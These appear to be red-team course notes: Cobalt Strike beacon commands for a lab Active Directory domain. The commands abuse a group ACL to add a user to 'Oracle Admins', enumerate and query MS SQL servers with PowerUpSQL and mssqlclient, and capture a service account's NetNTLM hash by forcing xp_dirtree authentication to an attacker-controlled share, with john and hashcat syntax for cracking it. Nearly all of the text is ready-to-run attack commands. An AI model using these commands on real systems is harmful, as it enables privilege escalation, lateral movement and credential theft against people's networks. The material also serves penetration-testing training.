 ###### <font style="color:#00b3ff">If we have the ACL on a group, we can add and remove members</font> 
```
beacon> run net group "Oracle Admins" bfarmer /add /domain
beacon> run net user bfarmer /domain
```

---
### MS SQL Servers

###### <font style="color:#00b3ff">Searching for SPNs that begin with MSSQL* with PowerUpSQL</font> 
```
beacon> powershell Get-SQLInstanceDomain
```

###### <font style="color:#00b3ff">Once you've gained access to a target user, Get-SQLConnectionTest can be used to test whether or not we can connect to the database</font> 
```
beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl
```

###### <font style="color:#00b3ff">Then use Get-SQLServerInfo to gather more information about the instance</font> 
```
beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"
```

###### <font style="color:#00b3ff">If there are multiple SQL Servers available, you can chain these commands together to automate the data collection</font> 
```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```

###### <font style="color:#00b3ff">Query the MSSQL server</font> 
```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select @@servername"

root@kali:~# proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DEV/bfarmer@10.10.17.25
```

---
### MS SQL NetNTLM Capture

###### <font style="color:#00b3ff">Use InveighZero to listen to the incoming requests (this should be run as a local admin)</font> 
```
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N

	Exec this query on the MSSQL server:
		EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1

	 Use --format=netntlmv2 --wordlist=wordlist svc_mssql-netntlmv2 with john or -a 0 -m 5600 svc_mssql-netntlmv2 wordlist with hashcat to crack.
```

---